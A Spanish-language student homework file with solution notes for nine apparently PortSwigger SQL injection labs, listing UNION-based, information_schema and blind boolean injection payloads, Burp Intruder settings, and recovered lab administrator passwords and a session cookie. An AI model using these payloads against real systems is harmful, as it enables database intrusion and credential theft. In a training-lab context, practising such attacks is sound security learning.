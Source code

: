 #  Tarea #985 Realizar los ejercicios de SQL Injection

## 1. LAB 1 SQLi
    * category '+OR+1=1--

---
## 2. LAB 2 SQLi
    * username 
        * administrator'--

---
## 3. [LAB 3 SQLi Determining the number of columns return by a query](https://www.youtube.com/watch?v=GP6CK03nDvw)
    * '+UNION+SELECT+NULL,NULL--
        * Firefox =! Foxyproxy 

---
## 4. [LAB 4 SQLi UNION attack finding a column containing text](https://www.youtube.com/watch?v=SGBTC5D7DTs&t=651s) 
    * '+UNION+SELECT+'abcdef',NULL,NULL--
        * category=Corporate+gifts ' UNION SELECT NULL, '7GBykY', NULL--

---
## 5. [LAB 5 SQLi UNION attack retrieving data from other tables](https://www.youtube.com/watch?v=6Dsj5SqR944)
    * category=Corporate+gifts '
        * category=Corporate+gifts ' order by 3--
            * category=Corporate+gifts ' UNION select 'a', NULL--
            * category=Corporate+gifts ' UNION select 'a', 'a'--
    * '+UNION+SELECT+username,+password+FROM+users--
        * administrator > b40kore6a4it6t57qcld     

---
       
## 6. [LAB 6 SQLi UNION attack retrieving multiple values in a single column](https://www.youtube.com/watch?v=yRVYoqR9vrI)
* [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
    * category=Gifts ' order by 1--
    * category=Gifts ' order by 2--
    * category=Gifts ' order by 3--
        * category=Gifts' UNION SELECT 'a', NULL-- 
        * category=Gifts ' UNION SELECT%20 NULL, 'a'--
            * category=Gifts ' UNION select NULL, username from users--
            * category=Gifts ' UNION select NULL, password from users--      
            * '+UNION+SELECT+NULL,username||'~'||password+FROM+users--
                * administrator~mxe67qn75iadph7i4rl

## 7. [LAB 7 SQLi attack, querying the database type and version on MySQL and Microsoft](https://www.youtube.com/watch?v=7afmKPDaZtw&t=1s)
* En burp suit community enciende el "proxy" pones el link el laboratorio en el que trabajas "burp suite chromium" de ahi lo mandas al "repeater" y pones en lo siguiente 
    * '+UNION+SELECT+'abc','def'#
    * '+UNION+SELECT+@@version,+NULL#                            
![alt text](image-2.png)
![alt text](image-1.png)
![alt text](image.png)

* haz lo que se muestra en las imagenes y listo

## 8. [LAB 8 SQLi ](https://www.youtube.com/watch?v=JduM_dO8glw)
* '+UNION+SELECT+'abc','def'--
* '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
    * users_kxxzwr
![alt text](image-4.png)

* '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
    * '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_kxxzwr'--
![alt text](image-6.png)    
![alt text](image-5.png)

* username_adjuvf
* password_xmshnc
* users_kxxzwr

* '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
    *  '+UNION+SELECT+username_adjuvf,+password_xmshnc+FROM+users_kxxzwr--

![alt text](image-7.png)    

* administrator
* wobskest29imovks75ay
---

## 9.[LAB 9 SQLi Blind SQL injection with conditional responses](https://www.youtube.com/watch?v=W3zvXK9i75A) 

* ### "Proxy" y luego "Repeater" 
* TrackingId=xyz' AND '1'='1
![alt text](image-15.png)


*  TrackingId=xyz' AND '1'='2
![alt text](image-16.png)

* TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a

![alt text](image-17.png)

*  TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
![alt text](image-18.png)

* TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
![alt text](image-19.png)

* ### Intruder
* TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§

![alt text](image-20.png)

*  Payload settings add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down. 

![alt text](image-21.png)

*  Settings tab, and the "Grep - Match"  add the value "Welcome back". 

![alt text](image-22.png)

* Cookie: TrackingId=A5wnpbmECJ7WwVJF' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--'

* Cookie: TrackingId=ZyhiJiwjIThE9gYZ' and (select substring(password,§1§,1) from users where username='administrator')='§a§'--'; session=iU12vYKWPt8Nx0OyETqDVZwcKpXnOdXt


* Attack Type: [Cluster Bomb](https://www.youtube.com/watch?v=LBG_n9fr8sM&t=1546s)

![alt text](image-25.png)

* Payloads 1
![alt text](image-23.png)

* Payloads 2
![alt text](image-24.png)


* Armando la contraseña manualmente 

![alt text](image-26.png)

| POS 1  | POS 2  | POS 3  | POS 4  | POS 5  | POS 6  | POS 7  | POS 8  | POS 9  | POS 10 | POS 11 | POS 12 | POS 13 | POS 14 | POS 15 | POS 16 | POS 17 | POS 18 | POS 19 | POS 20 |
| ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ |
| Valor1 | e | 7| p | 2 | v | Valor7 | f | b | 4| d| 3| q| r| i| q| s| z| v| o|

663

e7p2vfb4d3qriqszvo

![alt text](image-27.png)
